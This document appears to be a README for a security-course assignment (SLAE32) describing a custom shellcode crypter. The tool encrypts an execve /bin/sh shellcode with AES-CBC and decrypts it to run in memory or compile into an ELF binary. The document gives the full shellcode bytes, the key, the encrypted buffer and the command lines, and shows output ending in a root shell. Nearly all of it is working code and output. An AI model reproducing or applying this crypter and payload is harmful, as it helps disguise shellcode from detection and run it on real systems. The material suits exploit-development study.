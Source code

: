 # Assignment 7: Custom Crypter

Custom shellcode crypter which uses AES-CBC mode. Optionally, you can chain other schemes such as XOR encoding.

To generate an encrypted shellcode payload of your choice, supply it as an argument to the `payload` parameter of `custom_crypter.py`:

```bash
python3 custom_crypter.py -p "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"

[*] Shellcode length: 21 bytes (+ 11 bytes padding)

[*] Key: fvt2tdG57y8Ru6Kj

[*] Plaintext Shellcode: "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"

[+] Encrypted Shellcode: "\x37\x6a\x76\x30\x42\x34\x6a\x58\x48\x77\x56\x45\x44\x70\x44\x50\x45\x8e\xd2\x0d\x42\xba\xce\xca\x6a\x97\x74\x28\x43\xa2\x30\x71\x06\x34\x6e\xdf\x91\xec\xa5\x2b\x23\xa5\xaa\xcf\xe6\x63\xa7\x5f\x91\xde\x9a\xde\x2a\x28\x62\x53\x26\x2b\xd1\x59\xca\x58\xdf\x32\x75\xa6\x3f\xdb\x62\xe8\x04\x8e\x51\xee\xf4\xdd\xb5\x63\x1c\xff\x00\x28\xb9\xdd\x5b\xc7\x01\xf5\xf0\x4a\xb6\x6c\x9d\x64\xf3\x36\x12\x7e\xf4\xe4\x08\x51\x03\x6e\x52\x3f\xd0\x1c\x01\xf2\xd6\x72\x19\xc2\x98\x98\xd5\x6a\x6f\xfe\xf1\xf2\x4d\xd4\xda\xd8\xb4\xee\x91\x52\xf8\x09\xd4\xdb\x0c\xa2\x7c\xe8\x6e\x4b\x73\x14\x6d\xac"
```

Next, copy the encryption key and the encrypted shellcode buffer returned from `custom_crypter.py` and supply them as arguments to `custom_decrypter.py`. The `run` argument is set to execute the decrypted shellcode in memory:

```bash
python3 custom_decrypter.py -k fvt2tdG57y8Ru6Kj -p "\x37\x6a\x76\x30\x42\x34\x6a\x58\x48\x77\x56\x45\x44\x70\x44\x50\x45\x8e\xd2\x0d\x42\xba\xce\xca\x6a\x97\x74\x28\x43\xa2\x30\x71\x06\x34\x6e\xdf\x91\xec\xa5\x2b\x23\xa5\xaa\xcf\xe6\x63\xa7\x5f\x91\xde\x9a\xde\x2a\x28\x62\x53\x26\x2b\xd1\x59\xca\x58\xdf\x32\x75\xa6\x3f\xdb\x62\xe8\x04\x8e\x51\xee\xf4\xdd\xb5\x63\x1c\xff\x00\x28\xb9\xdd\x5b\xc7\x01\xf5\xf0\x4a\xb6\x6c\x9d\x64\xf3\x36\x12\x7e\xf4\xe4\x08\x51\x03\x6e\x52\x3f\xd0\x1c\x01\xf2\xd6\x72\x19\xc2\x98\x98\xd5\x6a\x6f\xfe\xf1\xf2\x4d\xd4\xda\xd8\xb4\xee\x91\x52\xf8\x09\xd4\xdb\x0c\xa2\x7c\xe8\x6e\x4b\x73\x14\x6d\xac" -a run

[+] Decrypted Shellcode: "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"


[*] Executing decrypted shellcode in memory...
# hostname
kali
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
#
```

Alternatively, the `compile` argument can be set to compile the shellcode into an ELF binary:

```bash
python3 custom_decrypter.py -k fvt2tdG57y8Ru6Kj -p "\x37\x6a\x76\x30\x42\x34\x6a\x58\x48\x77\x56\x45\x44\x70\x44\x50\x45\x8e\xd2\x0d\x42\xba\xce\xca\x6a\x97\x74\x28\x43\xa2\x30\x71\x06\x34\x6e\xdf\x91\xec\xa5\x2b\x23\xa5\xaa\xcf\xe6\x63\xa7\x5f\x91\xde\x9a\xde\x2a\x28\x62\x53\x26\x2b\xd1\x59\xca\x58\xdf\x32\x75\xa6\x3f\xdb\x62\xe8\x04\x8e\x51\xee\xf4\xdd\xb5\x63\x1c\xff\x00\x28\xb9\xdd\x5b\xc7\x01\xf5\xf0\x4a\xb6\x6c\x9d\x64\xf3\x36\x12\x7e\xf4\xe4\x08\x51\x03\x6e\x52\x3f\xd0\x1c\x01\xf2\xd6\x72\x19\xc2\x98\x98\xd5\x6a\x6f\xfe\xf1\xf2\x4d\xd4\xda\xd8\xb4\xee\x91\x52\xf8\x09\xd4\xdb\x0c\xa2\x7c\xe8\x6e\x4b\x73\x14\x6d\xac" -a compile

[+] Decrypted Shellcode: "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"


[*] Compiling shellcode runner...

[+] Shellcode compiled. Execute ./shellcode to run

[*] Performing cleanup!

[*] Exiting.

┌──(root㉿kali)-[/home/jack/SLAE32/Assignment 7: Custom Crypter]
└─# ./shellcode 
Shellcode Length:  32
# hostname
kali
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
#
```

---
